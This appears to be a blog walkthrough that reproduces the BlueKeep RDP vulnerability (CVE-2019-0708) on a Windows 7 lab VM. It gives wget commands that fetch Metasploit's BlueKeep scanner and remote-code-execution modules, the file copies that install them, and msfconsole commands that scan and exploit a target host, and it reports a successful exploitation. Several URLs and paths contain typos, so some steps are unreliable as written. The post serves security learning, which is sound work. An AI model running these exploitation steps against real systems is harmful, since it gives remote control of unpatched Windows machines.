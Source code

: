 ```yaml
---
title: Reproduction CVE-2019-0708
author: Enomothem
tags:
  - Information Security
  - CVE-2019-0708
abbrlink: '2076'
date: 2019-09-13 13:02:59
---
```


# [Reproduction CVE-2019-0708](https://www.cnblogs.com/enomothem/p/11516626.html)

## Xx_Introduction

> Please protection,respect,love,"China's Internet Security Act"!
For learning reference only！
Please indicate the source！

## Ax_Preparation

- windows 7 SP1 Download:[ed2k://|file|cn_windows_7_ultimate_with_sp1_x64_dvd_u_677408.iso|3420557312|B58548681854236C7939003B583A8078|/](ed2k://|file|cn_windows_7_ultimate_with_sp1_x64_dvd_u_677408.iso|3420557312|B58548681854236C7939003B583A8078|/)
- VMware Workstation pro 15 Download:https://my.vmware.com/cn/web/vmware/info/slug/desktop_end_user_computing/vmware_workstation_pro/15_0
- Metasploit 5.x Download: https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers
- linux parrot Download:https://parrotlinux.org/download-security.php
- CVE-2019-0708 exploit tools:

1. wget https://github.com/rapid7/metasploit-framework/edb7e0221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/explot/rdp.rb
2. wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/rdp_scaner.rb
3. wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
4. wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb
5. cp rdp.rb /usr/share/metasploit-framework/lib/msf/core/exploit/
6. cp rdp_scanner.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/
7. cp cve_2019_0708_bluekeep_rce.rb /usr/share/metasploit-framework/modules/exploits/windows/rdp/
8. cp cve_2019_0708_bluekeep.rb /usr/share/metasploit-framework/modules/auiliary/scanner/rdp/

## Bx_Scan


  ```c
  MSF update1 apt-get update
  apt-get install metasploit-framework
  ```

   

  ```c
  1 su root
  2 msfconsole
  3 reload_all
  4 search 0708
  5 use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
  6 set rhosts xxx
  7 exploit
  ```

![img](https://gitee.com/enomothem/myblogphoto/raw/master/img/1786363-20190913115922292-1482405821.png)

## Cx_Exploit

```use windows/rdp/cve_2019_0708_bluekeep_rce 2 set rhost xxx 3 set target xxx 4 set rport 3389 5 exploit```

<img src="https://gitee.com/enomothem/myblogphoto/raw/master/img/1786363-20190913120450021-534296280.png" alt="img" style="zoom:150%;" />

> Once again

![img](https://gitee.com/enomothem/myblogphoto/raw/master/img/1786363-20190913121749817-2119602140.png) 

<img src="https://gitee.com/enomothem/myblogphoto/raw/master/img/1786363-20190913121406925-276521093.png" alt="img" style="zoom:150%;" />

<img src="https://gitee.com/enomothem/myblogphoto/raw/master/img/1786363-20190913121413404-1922388843.png" alt="img" style="zoom:150%;" />

> OK,Successfully.